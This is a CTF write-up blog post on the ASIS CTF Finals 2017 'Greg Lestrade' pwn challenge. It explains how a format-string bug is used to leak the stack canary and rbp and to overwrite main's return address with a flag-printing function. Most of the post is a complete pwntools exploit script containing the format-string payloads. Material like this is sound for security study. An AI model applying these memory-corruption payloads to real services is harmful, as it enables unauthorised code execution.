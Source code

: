 ```yaml
---
layout: post
alias: "/blog/2017/09/11/asis-ctf-finals-2017-greg-lestrade/"
date: "2017-09-11T08:09:22+09:00"
tags: [ "ctf", "writeup", "pwn", "asis-ctf" ]
---
```


# ASIS CTF Finals 2017: Greg Lestrade

他の問題が解けないのでプロが放置してたやるだけをやってお茶を濁した回2。

## problem

```
$ nc 146.185.132.36 12431
[*] Welcome admin login system! 

Login with your credential...
Credential : 7h15_15_v3ry_53cr37_1_7h1nk
0) exit
1) admin action
1
[*] Hello, admin 
Give me your command : 
```

## solution

Rewrite the return address of `main` with the flag function.
Use the format-string bug to read `rbp` and to rewrite it.

There is a bufferoverflow bug at reading credential, but it is not used.

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='146.185.132.36')
parser.add_argument('port', nargs='?', default=12431, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--binary', default='./greg_lestrade')
args = parser.parse_args()
context.log_level = args.log_level
context.binary = args.binary
elf = ELF(args.binary)

credential = '7h15_15_v3ry_53cr37_1_7h1nk'
system_cat_flag = 0x400876
p = remote(args.host, args.port)
# p = process(args.binary)

p.sendlineafter('Credential : ', credential)

menu = '''\
0) exit
1) admin action
'''
p.sendlineafter(menu, '1')
payload = ''
payload += 'a' * 256
payload += '/%137$p/%138$p/'
p.sendlineafter('Give me your command : ', payload)
s = p.recvline()
canary = int(s.split('/')[1], 16)
rbp = int(s.split('/')[2], 16)
log.info('canary = %#x', canary)
log.info('rbp = %#x', rbp)

retaddr = rbp + 8
for i, c in enumerate(p64(system_cat_flag)):
    p.sendlineafter(menu, '1')
    payload = ''
    payload += 'a' * 256
    payload += '%' + str(ord(c) + 256) + 'c'
    payload += '%42$hhn'
    payload += ' ' * (256 + 16 - len(payload))
    payload += p64(retaddr + i)
    p.sendlineafter('Give me your command : ', payload)

p.interactive()
```
